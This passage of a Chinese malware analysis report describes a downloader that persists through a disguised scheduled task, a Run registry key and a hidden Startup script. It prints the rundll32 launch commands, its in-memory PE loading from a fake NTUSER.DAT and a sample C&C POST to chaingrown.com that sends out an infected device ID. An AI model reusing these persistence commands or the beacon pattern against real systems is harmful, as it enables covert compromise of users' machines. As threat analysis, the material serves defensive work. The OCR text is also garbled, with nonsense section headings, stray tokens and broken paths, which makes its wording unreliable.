 各方建立持久化，逐步尝试采用任务、作物、启动目录计划的明确方式。  

(1）计划任务通过COM接口创建名为"MicrosoftEdgeUpdate"的计划任务，执行命令如下。  

RUNDLL32.exe %APPDATA%\.\Roaming\Microsoft\ IconCache.db, GetProcFunc %APPD ATA%\..\Roaming\Microsoft\Network\ NTUSER.DAT 8888  

![](https://cdn-mineru.openxlab.org.cn/extract/5f9d28ea-214d-406f-8171-7345d5e96636/7a6d694d532ca6db8b47aab86d807383b1dce4d5d776d75e4baf3d656c7e17ac.jpg)  

(2)开花  

如果计划任务创建不成功，则在"HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"下添加名为"GoogleUpdate"的键值，设置的执行命令如下。  

cmd /c start /b rundll32 %APPDATA%\..\Roaming\Microsoft\ IconCache.db,GetProcFunc %A PPDATA%\..\Roaming\Microsoft\Network\ NTUSER.DAT 8888  

![](https://cdn-mineru.openxlab.org.cn/extract/5f9d28ea-214d-406f-8171-7345d5e96636/9bed2b6e1f39df71dadd493f62286f3c2a0a5d7a79ce4064e09d245b9f4c3835.jpg)  

(3)启动目录  

如果底部键值也未能成功设置，则在启动目录下释放文件，把文件属性设置为系统，隐藏文件路径为"C:\Users\\[user]\\AppData\\Roaming\\Microsoft\Windows\\开始菜单\程序\\Startup\\check.cmd"  

![](https://cdn-mineru.openxlab.org.cn/extract/5f9d28ea-214d-406f-8171-7345d5e96636/869ef8ee46fcc4f28595d130e520b7c041f86399d9db80e30a7582b871bcc062.jpg)  

### 第三阶段  

IconCache.db有两个导出函数，其中GetProcFunc为空，GetProcFuncW实现有效功[2]能。由于rundll32调用函数的特性，当格式化宽字符串参数时，对GetProcFunc的调用实际会执行GetProcFuncW函数。  

![](https://cdn-mineru.openxlab.org.cn/extract/5f9d28ea-214d-406f-8171-7345d5e96636/eeb4329d0478a15fccf2367ec399fa985384161a2875c6e932a62136e858adf7.jpg)  

GetProcFuncW函数从作为参数的NTUSER.DAT文件中解密得到PE数据，然后内存加载，再调用其导出函数GetWindowSizedW。  

![](https://cdn-mineru.openxlab.org.cn/extract/5f9d28ea-214d-406f-8171-7345d5e96636/2b532c84c609525c33775a26cc1cd0c9d9b3b79b271df1ce02c33aaa32b40402.jpg)  

#### 下载器主模块  

从NTUSER.DAT解密得到的PE文件为下载器主，先从C&C服务器获取附加适配器的基本信息，再根据这些信息下载附加适配器并执行模块。  

首先选择作为C＆C服务器的URL，3组URL字符串实际为同一个。  

![](https://cdn-mineru.openxlab.org.cn/extract/5f9d28ea-214d-406f-8171-7345d5e96636/48b31898c9f7367bbb7a13b497544bc149dd424c61c0ae33702a9f84ebca663f.jpg)  

向C&C服务器发送的POST请求数据有7对参数，参数名均是随机生成的字符串，而参数的值分别含义如下。  

<html><body><table><tr><td>参数序号 说明</td><td></td></tr><tr><td></td><td>以下载器操作指令（见下面）的值为随机字符串的长度</td></tr><tr><td>2</td><td>感染设备ID字符串的base64编码感染设备ID由三部分组成：构成IconCache.db的 参数（8888"），字符串“64”，以及随机字符，最终构成16字节长度的字符串</td></tr><tr><td>3</td><td>某段数据的base64编码，具体作用暂时未知</td></tr><tr><td>4</td><td>和操作指令相关的数字值</td></tr><tr><td>5</td><td>参数6对应字符串的长度</td></tr><tr><td>6</td><td>和操作指令相关的字符串base64编码，包含提供给C&C服务器的信息</td></tr><tr><td>7</td><td>随机字符串，用于混乱</td></tr></table></body></html>  

#### 发送的请求数据示例如下。  

POST /manage/manage.aspHTTP/1.1 Content-Type: applicatton/x-www-form-urlencoded Connection: Keep-Alive User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; InfoPath.3) Host: chaingrown.com Content-Length: 137 Cache-Control:no-cache   
8   
9   
10 NF=DDAYSTWUBF&QGEDC=ODg40DY0OTFGMmlLOTY1ag==&ANQB=&QKKZOH=0&SREVGW=52& WDIGII=MgAwADIAMwAtADEAMgAtADAANwAgADEANQA6ADMANwA6ADIAOAA=&VOUI=HT  
